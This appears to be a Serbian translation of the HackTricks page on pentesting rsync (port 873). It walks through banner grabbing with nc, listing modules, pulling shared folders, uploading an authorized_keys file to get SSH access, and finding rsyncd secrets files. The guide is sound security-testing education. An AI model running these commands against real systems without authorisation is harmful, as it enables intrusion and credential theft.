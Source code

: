 # 873 - Pentesting Rsync

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## **Osnovne informacije**

Sa [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** je alatka za efikasno [transferisanje](https://en.wikipedia.org/wiki/File\_transfer) i [sinhronizaciju](https://en.wikipedia.org/wiki/File\_synchronization) [fajlova](https://en.wikipedia.org/wiki/Computer\_file) između računara i eksternog hard diska i između računara u mreži tako što upoređuje vreme modifikacije i veličine fajlova.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) Često se koristi na [Unix-sličnim](https://en.wikipedia.org/wiki/Unix-like) [operativnim sistemima](https://en.wikipedia.org/wiki/Operating\_system). Rsync algoritam je vrsta [delta enkodiranja](https://en.wikipedia.org/wiki/Delta\_encoding) i koristi se za minimiziranje korišćenja mreže. [Zlib](https://en.wikipedia.org/wiki/Zlib) se može koristiti za dodatno [kompresovanje podataka](https://en.wikipedia.org/wiki/Data\_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) a [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) ili [stunnel](https://en.wikipedia.org/wiki/Stunnel) se mogu koristiti za bezbednost.

**Podrazumevani port:** 873

```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```

### Prebrojavanje

### Baner i ručna komunikacija

```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

### **Nabrajanje deljenih fascikli**

**Rsync moduli** se prepoznaju kao **deljeni direktorijumi** koji mogu biti **zaštićeni lozinkama**. Da biste identifikovali dostupne module i proverili da li zahtevaju lozinke, koriste se sledeće komande:

```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

Budite svesni da neki deljeni resursi možda neće biti prikazani na listi, što ih može sakriti. Takođe, pristup nekim deljenim resursima može biti ograničen na određene **poverljive podatke**, što se može videti kroz poruku **"Pristup odbijen"**.

### [**Brute Force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### Ručna upotreba Rsync-a

Nakon dobijanja liste **modula**, akcije zavise od toga da li je potrebna autentifikacija. Bez autentifikacije, **prikazivanje** i **kopiranje** fajlova sa deljenog foldera na lokalni direktorijum se postiže kroz:

```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

Ovaj proces **rekurzivno prenosi fajlove**, čuvajući njihove atribute i dozvole.

Sa **poverljivim podacima**, listanje i preuzimanje fajlova iz deljene fascikle se može obaviti na sledeći način, gde će se pojaviti zahtev za unos lozinke:

```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```

Da biste **prebacili sadržaj**, kao što je datoteka _**authorized\_keys**_ za pristup, koristite:

```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```

## POST

Da biste pronašli konfiguracionu datoteku rsyncd, izvršite:

```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

Unutar ovog fajla, parametar _secrets file_ može ukazivati na fajl koji sadrži **korisnička imena i lozinke** za rsyncd autentifikaciju.

## Reference

* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
